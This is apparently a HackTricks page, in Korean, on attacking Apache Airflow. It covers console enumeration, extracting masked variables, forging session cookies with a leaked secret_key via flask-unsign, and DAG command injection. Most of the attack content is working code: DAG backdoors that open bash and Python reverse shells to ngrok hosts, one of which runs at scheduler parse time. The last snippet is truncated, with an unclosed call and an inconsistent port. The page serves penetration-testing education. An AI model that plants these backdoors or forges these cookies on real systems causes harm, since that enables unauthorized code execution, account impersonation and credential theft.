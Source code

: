 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org)는 **데이터 파이프라인 또는 워크플로우를 조정하고 예약하는 플랫폼**으로 사용됩니다. 데이터 파이프라인의 맥락에서 "조정"이라는 용어는 다양한 출처에서 발생하는 복잡한 데이터 워크플로우를 정리하고, 조정하며, 관리하는 과정을 의미합니다. 이러한 조정된 데이터 파이프라인의 주요 목적은 처리되고 소비 가능한 데이터 세트를 제공하는 것입니다. 이러한 데이터 세트는 비즈니스 인텔리전스 도구, 데이터 과학 및 머신 러닝 모델 등 다양한 애플리케이션에서 광범위하게 사용되며, 이는 빅 데이터 애플리케이션의 기능에 필수적입니다.

기본적으로, Apache Airflow는 **무언가**(이벤트, 크론)가 발생할 때 **코드 실행을 예약할 수 있게 해줍니다**.

### Local Lab

#### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)에서 **docker-compose 구성 파일을 사용하여** 완전한 apache airflow 도커 환경을 시작할 수 있습니다. (MacOS를 사용하는 경우 도커 VM에 최소 6GB의 RAM을 할당해야 합니다).

#### Minikube

**apache airflo**w를 실행하는 쉬운 방법 중 하나는 **minikube로 실행하는 것입니다**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow는 **민감한 정보**를 구성에 저장할 수 있으며, 약한 구성이 있을 수 있습니다:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow를 공격하기 전에 **권한이 어떻게 작동하는지** 이해해야 합니다:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

**웹 콘솔에 접근할 수 있다면** 다음 정보 중 일부 또는 전부에 접근할 수 있습니다:

* **변수** (여기에 사용자 정의 민감한 정보가 저장될 수 있습니다)
* **연결** (여기에 사용자 정의 민감한 정보가 저장될 수 있습니다)
* `http://<airflow>/connection/list/`에서 접근
* [**구성**](./#airflow-configuration) (여기에 **`secret_key`** 및 비밀번호와 같은 민감한 정보가 저장될 수 있습니다)
* **사용자 및 역할** 목록
* **각 DAG의 코드** (흥미로운 정보가 포함될 수 있습니다)

#### Retrieve Variables Values

변수는 Airflow에 저장될 수 있어 **DAGs**가 **값에 접근**할 수 있습니다. 이는 다른 플랫폼의 비밀과 유사합니다. **충분한 권한**이 있다면 `http://<airflow>/variable/list/`의 GUI에서 접근할 수 있습니다.\
Airflow는 기본적으로 GUI에서 변수의 값을 표시하지만, [**이**](https://marclamberti.com/blog/variables-with-apache-airflow/)에 따르면 **값**이 **별표**로 표시되는 **변수 목록**을 설정할 수 있습니다.

![](<../../.gitbook/assets/image (164).png>)

그러나 이러한 **값**은 여전히 **CLI**를 통해 **가져올 수 있습니다** (DB 접근이 필요함), **임의의 DAG** 실행, **API**를 통해 변수 엔드포인트에 접근 (API가 활성화되어야 함), **심지어 GUI 자체에서도!**\
GUI에서 이러한 값에 접근하려면 **접근하고자 하는 변수**를 선택하고 **작업 -> 내보내기**를 클릭하면 됩니다.\
또 다른 방법은 **검색 필터링**을 사용하여 **숨겨진 값**에 대해 **브루트포스**를 수행하는 것입니다:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

**`expose_config`** 구성이 **True**로 설정되어 있다면, **User** 역할 및 **상위** 역할은 **웹에서 구성**을 **읽을 수 있습니다**. 이 구성에는 **`secret_key`**가 나타나며, 이는 유효한 사용자가 **자신의 서명된 쿠키를 생성하여 다른 사용자 계정을 가장할 수 있음을 의미합니다**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG 백도어 (Airflow 작업자에서 RCE)

**DAGs가 저장되는** 위치에 **쓰기 권한**이 있다면, **역방향 셸**을 보내는 **하나를 생성**할 수 있습니다.\
이 역방향 셸은 **airflow 작업자 컨테이너** 내에서 실행될 것입니다:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG 백도어 (Airflow 스케줄러에서 RCE)

코드의 **루트에서 실행되도록 설정**하면, 이 글을 작성하는 순간, DAG의 폴더에 넣은 후 몇 초 후에 **스케줄러에 의해 실행**됩니다.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG 생성

만약 **DAG 클러스터 내의 머신을 침해**하는 데 성공한다면, `dags/` 폴더에 새로운 **DAG 스크립트**를 생성할 수 있으며, 이 스크립트는 **DAG 클러스터 내의 나머지 머신에 복제**됩니다.

#### DAG 코드 주입

GUI에서 DAG를 실행할 때 **인수를 전달**할 수 있습니다.\
따라서, DAG가 제대로 코딩되지 않았다면 **명령어 주입에 취약**할 수 있습니다.\
이것이 바로 이 CVE에서 발생한 일입니다: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG에서 명령어 주입을 찾기 시작하기 위해 알아야 할 모든 것**은 **매개변수**가 **코드 `dag_run.conf.get("param_name")`**로 **접근**된다는 것입니다.

게다가, 동일한 취약점이 **변수**에서도 발생할 수 있습니다(충분한 권한이 있다면 GUI에서 **변수의 값을 제어**할 수 있습니다). 변수는 **다음과 같이 접근됩니다**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
만약 그들이 예를 들어 bash 명령어 안에서 사용된다면, 명령 주입을 수행할 수 있습니다.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
